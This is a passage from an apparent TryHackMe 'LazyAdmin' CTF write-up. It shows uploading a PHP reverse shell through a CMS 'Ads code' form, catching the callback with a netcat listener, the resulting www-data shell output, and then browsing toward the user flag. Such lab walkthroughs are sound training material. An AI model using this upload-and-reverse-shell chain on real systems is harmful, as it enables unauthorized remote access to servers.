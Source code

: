 ```bash
Receiving objects: 100% (10/10), 9.81 KiB | 590.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
```
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ls
 php-reverse-shell
```
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cd php-reverse-shell
```
```bash
┌──(kali㉿kali)-[~/Downloads/php-reverse-shell]
└─$ ls
CHANGELOG  COPYING.GPL  COPYING.PHP-REVERSE-SHELL  LICENSE  php-reverse-shell.php  README.md
```
```bash
┌──(kali㉿kali)-[~/Downloads/php-reverse-shell]
└─$ mousepad php-reverse-shell.php
```

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Mousepad%20php%20reverse%20shell.png)

20 `firefox "http://10.10.165.242/content/as/?type=ad"` and copy paste the contents of **php-reverse-shell.php** into the "**Ads code**" input form and give it any name you want, and then upload it

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Reverse%20Shell%20Ad%20.png)

21. `nc -lvnp {PORT NUMBER}` to open up a Netcat listener on our attack machine that'll listener for any incoming connections
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999                            
listening on [any] 9999 ...
```

22. `firefox "http://10.10.165.242/content/inc/ads/"` to launch Firefox and redirect it to the **/content/inc/ads** directory, in which we can now see that our PHP reverse shell payload is now visible and we can execute it just by clicking on it, which created us a reverse shell that connected back to our Netcat listener that's on our attack machine

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/PHP%20Reverse%20Shell%20Uploaded.png)
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999                            
listening on [any] 9999 ...
connect to [10.6.54.63] from (UNKNOWN) [10.10.165.242] 46436
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 05:02:10 up  3:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
23. `ls /` to display the available files and directories that are on the target's filesystem root directoy  
24. `ls /home` to display the available files and directories that are on the target's **/home** directory, which reveals a single user
25. `ls /home/{USER}` to display the available files and directories that are on the discovered user's home directory, which reveals there to be a user text file
26. `cat /home/{USER}/{USER FLAG}.txt` to display the contents of the user text file we found onto our terminal, which ended up caintaining the user's flag for this challenge
```bash
$ ls
```